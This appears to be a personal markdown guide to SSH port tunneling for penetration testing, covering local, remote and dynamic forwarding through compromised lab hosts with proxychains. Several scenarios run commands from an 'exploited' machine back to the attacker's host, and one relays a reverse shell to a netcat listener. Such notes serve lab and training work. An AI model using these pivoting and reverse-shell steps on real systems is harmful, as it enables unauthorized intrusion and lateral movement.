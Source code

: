 # Port Tunneling Explained
I keep notes on how port tunneling works, and specify which scenario to deploy which technique.

## SSH Port Tunneling for exploitation

### Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is an open SSH service at 10.10.1.10:22 or 0.0.0.0:22.
- I have obtained credentials to the SSH service.

Technique: Local Port Forwarding via SSH.

```sh
(host)# ssh -L 3307:127.0.0.1:3306 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      22582/ssh
...
(host)# nc 127.0.0.1 3307
...
```

**Explanation:**
The first 3307 refers to opening a local port on your host machine. The 127.0.0.1:3306 refers to the remote host's service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

### Scenario 2:
- The service of my exploited machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is *no open* SSH server at 10.10.1.10:22 nor 0.0.0.0:22. The port is filtered. There is a firewall blocking. 
- I have gained of Remote Code Execution on the machine. 
- There is an SSH client inside the exploited server.
- I would like to tunnel the service back to my host machine (10.10.1.32)

Technique: Reverse/Remote Port Forwarding via SSH.

```sh
(host)# service ssh start
(exploited)$ ssh -R 3307:127.0.0.1:3306 kali@10.10.1.32
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      25748/sshd
...
(host)# nc 127.0.0.1 3307
```

**Explanation:**
Within the exploited machine, we use the ssh client found inside exploited machine to connect back to our sshd hosted at our host machine with our set of credentials. 

The first 3307 refers to opening a local port on your remote machine (my host at 10.10.1.32). 
The 127.0.0.1:3306 refers to the local host's (exploited) service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

The format looks very similar to local port forwarding. TLDR, think of it as the same format but we swapped `-L` to `-R` for a reverse connection.

### Scenario 3:
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- There is an admin web interface at 172.16.1.2:80 that I would like to access to this through my exploited machine as a jump host.
- There is an open SSH server at 10.10.1.10:22 or 0.0.0.0:22. 
- I have obtained credentials to the SSH service.

Technique #1: Local port forwarding via SSH to a single internal target.

```sh
(host)# ssh -L 8001:172.16.1.2:80 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# curl -v http://127.0.0.1:8001/
...
```

**Explanation:**
The first 8001 refers to opening a local port on your host machine. The 172.16.1.2:80 refers to the admin web panel located inside the intranet.
This will create an SSH tunnel to relay connection to your host's port 8001 to the target service. This is very similar to Scenario 1 except this time, we specify a specific remote target which is the intranet admin panel instead of 127.0.0.1.

Technique #2: Dynamic port forwarding via SSH to any internal target reachable by jumphost.

```sh
(host)# tail /etc/proxychains.conf
...
[ProxyList]
socks5  127.0.0.1 8001
(host)# ssh -D 8001 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# proxychains curl -v http://172.16.1.2/
...
```

**Explanation:**
We first edit our proxychains configuration file to set a SOCKS proxy at 127.0.0.1:8001.
Then, by using SSH dynamic port forwarding, we create a SOCKS proxy at port 8001 with the `-D` option.
Next, we can process to prefix any CLI commands with proxychains that will route our requests through this SOCKS proxy and reach the admin panel.
The benefit of this is that we are no longer limited to a single remote target hardcoded in our Local Port Forwarding. 

### Scenario 4: 
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- There is an admin web interface at 172.16.1.2:80 that I would like to access to this through my exploited machine as a jump host.
- There is *no open* SSH server at 10.10.1.10:22 nor 0.0.0.0:22. The port is filtered. There is a firewall blocking. 
- I have gained of Remote Code Execution on the machine. 
- There is an SSH client inside the exploited server.
- I would like to tunnel the service back to my host machine (10.10.1.32)

Technique: Reverse/Remote Port Forwarding via SSH a single internal target back to host.

```sh
(host)# service ssh start
(exploited)$ ssh -R 8001:172.16.1.2:80 kali@10.10.1.32
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      115384/sshd
...
(host)# curl -v http://127.0.0.1:8001/
```

**Explanation:**
This is similar to Scenario 2. We changed the 127.0.0.1 to the intranet web portal service at 172.16.1.2:80.

### Scenario 5:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 3.
- I found a vulnerability on 172.16.1.2:80 and I want to get a reverse connection back to my host machine (10.10.1.32). 
- There is an SSH client inside the jumphost.

Technique: Local Port Forwarding via SSH within jumphost to send reverse connection back to our host

```sh
(host)# service ssh start
(host)# nc -nlvp 9999
(host)# netstat -antp
...
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      100026/nc
...
(jumphost)$ ssh -L 172.16.1.10:4444:10.10.1.32:9999 kali@10.10.1.32
(jumphost)$ netstat -antp
...
tcp        0      0 172.16.1.100:9877       0.0.0.0:*               LISTEN      2283967/ssh
...
(host)# proxychains exploit.py --lhost=172.16.1.10 --lport=4444
```

**Explanation:**
I first start my own host's SSHd. I set a netcat listener at port 9999 to catch a reverse connection back on my host machine (10.10.1.32). 
Inside my jumphost, I leverage the SSH client found inside to perform a Local Port Forwarding instead. Interesting fact: Local Port Forwarding allows us to set a binding address without requiring any special option being enabled on the jumphost's SSHd configuration, unlike Remote Port Forwarding.
I can either set my binding address to 172.16.1.10 or 0.0.0.0. This will create a port 4444 listener on our jumphost as seen in our netstat. I then set the remote address pointing to my host's netcat at 10.10.1.32:9999. We can then exploit the admin web portal to call a reverse connection to our jumphost at 172.16.1.10:4444 which will be redirected back to our netcat listener, thus catching a reverse shell. 

#### Why did I not try Reverse/Remote Port Forwarding? 

I have failed to successfully set a binding address via `-R` connecting from my host. The listening port will only bind to 127.0.0.1:4444. This is not good as we cannot use this to catch reverse connection back to this jump host.

I found out the reason why was due to an option not being enabled as documented in the Man page for SSH -R: 
> By default, TCP listening sockets on the server will be bound to the loopback interface only.  This may be overridden by specifying a bind_address.  An empty bind_address, or the address ‘*’, indicates that the remote socket should listen on all interfaces.  Specifying a remote bind_address will only succeed if the server's GatewayPorts option is enabled (see sshd_config(5))

